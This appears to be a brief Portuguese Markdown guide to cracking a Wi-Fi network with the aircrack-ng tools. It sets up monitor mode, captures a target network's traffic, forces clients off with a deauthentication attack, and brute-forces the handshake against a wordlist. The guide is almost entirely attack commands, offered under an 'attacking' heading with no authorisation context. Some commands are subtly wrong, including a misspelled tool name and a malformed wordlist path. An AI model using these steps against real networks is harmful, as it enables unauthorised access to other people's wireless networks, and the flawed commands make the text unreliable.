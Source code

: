 ## Airmon-ng

### Configurando a interface para o ataque

* Use o comando `airmon-ng` para mostrar as interfaces disponíveis.   
`airmon-ng`  

* Escolha a interface para o ataque.  
`airmon-ng start wlan1`

* Use o novamente o comando `airmon-ng` para verificar que a interface entrou em modo de monitoramento(promíscuo).
`airmon-ng`

### Obtendo informações sobre a rede a ser atacada

* Procure a rede a ser atacada.  
`tcpdump -i wlan1mon -s 64000 -p`

* Depois de escolher a rede, pegue informações sobre ela com o comando abaixo:  
`airodump-ng wlan1mon`

* Coloque as informações da rede escolhida. E escolha um nome para o arquivo `arquivo-x`.  
`airodump-ng --channel 11 --bssid 43:2C:FE:A4:B8:6C -w arquivo-x wlan1mon`

### Atacando

* `airplay-ng -0 5 -a 'bssid' -s 'station' `  
`airplay-ng -0 5 -a 43:2C:FE:A4:B8:6C -s 1C:2B:3D:4E:5F:6A wlan1mon`

* `aircrack-ng -w /user/share/wordlists/sqlmap.txt -b ´bssid-do-alvo´ arquivo-x-01.cap`  


# Vídeo ensinando:
https://www.youtube.com/watch?v=XshYRVcGiDU&feature=youtu.be
